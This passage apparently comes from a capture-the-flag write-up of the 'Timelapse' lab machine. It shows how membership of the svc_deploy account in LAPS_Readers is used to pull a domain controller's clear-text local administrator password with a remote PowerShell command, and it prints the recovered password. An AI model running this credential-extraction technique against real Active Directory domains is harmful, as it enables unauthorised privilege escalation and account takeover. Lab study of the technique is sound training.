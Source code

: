 Using those commands we can execute commands as svc_deploy.
We can use `net user svc_deploy`  in order to get more informations about `svc_deploy` user.
```
User name svc_deploy  
Full Name svc_deploy  
Comment  
User's comment  
Country/region code 000 (System Default)  
Account active Yes  
Account expires Never  
  
Password last set 10/25/2021 12:12:37 PM  
Password expires Never  
Password changeable 10/26/2021 12:12:37 PM  
Password required Yes  
User may change password Yes  
  
Workstations allowed All  
Logon script  
User profile  
Home directory  
Last logon 8/17/2022 12:31:12 AM  
  
Logon hours allowed All  
  
Local Group Memberships *Remote Management Use  
Global Group memberships *LAPS_Readers *Domain Users
```
LAPS_Reader => NICE!

Using the fact that `svc_deploy` can read from the LAPS (Local Administrator Password Solution) we can retrieve `ms-mcs-AdmPwd`

>The "ms-mcs-AdmPwd" a "confidential" computer attribute that stores the clear-text LAPS password. Confidential attributes can only be viewed by Domain Admins by default, and unlike other attributes, is not accessible by Authenticated Users
>*From https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#extract-laps-password*

Then:
```
> invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {Get-ADComputer -Filter * -Properties ms-Mcs-AdmPwd, ms-Mcs-AdmPwdExpirationTime}

PSComputerName : localhost  
RunspaceId : 6cbb179a-77d1-4100-89c2-f608731997fb  
DistinguishedName : CN=DC01,OU=Domain Controllers,DC=timelapse,DC=htb  
DNSHostName : dc01.timelapse.htb  
Enabled : True  
ms-Mcs-AdmPwd : oE,0DU#pshs25U3aC!IqM!,.  
ms-Mcs-AdmPwdExpirationTime : 133056103313755333  
Name : DC01  
ObjectClass : computer  
ObjectGUID : 6e10b102-6936-41aa-bb98-bed624c9b98f  
SamAccountName : DC01$  
SID : S-1-5-21-671920749-559770252-3318990721-1000  
UserPrincipalName :  
  
PSComputerName : localhost  
RunspaceId : 6cbb179a-77d1-4100-89c2-f608731997fb  
DistinguishedName : CN=DB01,OU=Database,OU=Servers,DC=timelapse,DC=htb  
DNSHostName :  
Enabled : True  
Name : DB01  
ObjectClass : computer  
```